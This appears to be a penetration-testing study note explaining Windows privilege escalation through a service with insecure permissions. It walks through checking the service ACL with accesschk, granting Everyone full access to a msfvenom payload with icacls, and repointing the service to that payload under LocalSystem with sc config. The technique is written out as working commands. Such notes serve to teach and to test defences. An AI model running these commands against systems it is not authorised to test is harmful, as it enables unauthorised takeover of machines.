 # Insecure service permission

This vulnerability is based on the mis-configuration on the service's permission, rather than the service's executable itself.&#x20;

Given a service with insecure permission allowing us to change the configurations, it can be exploited to change the executable to one defined by us.

The following command allows us to view the service permissions using the `AcessChk` tool:&#x20;

{% embed url="https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk" %}

Eg. Suppose there is a vulnerable service named `vuln_service`:

```powershell
C:\> accesschk -qlc vuln_service
  [0] ACCESS_ALLOWED_ACE_TYPE: NT AUTHORITY\SYSTEM
        ...
  
  [4] ACCESS_ALLOWED_ACE_TYPE: BUILTIN\Users
        SERVICE_ALL_ACCESS
```

The following shows that the `BUILTIN\Users` group has the `SERVICE_ALL_ACCESS` permission, which means that any user can configure the service.

After creating an executable payload with `msfvenom`, and granting the appropriate permission on the created executable (usually full access `(F)` for the `Everyone` group). The associated executable and account for the vulnerable service can be updated.

**To grant full access (F) to a binary for the Everyone group:**

```powershell
C:\> icacls [exec_binary] /grant Everyone:F
```

The following sets the `vuln_service` service associated executable to the attacker created path, and the account to `LocalSystem` (highest privileged account available).

```powershell
C:\> sc config vuln_service binPath= [path_to_exec_payload].exe obj= LocalSystem
```

> Take note of the space after the equals sign (=) for the options passed to the `sc` command
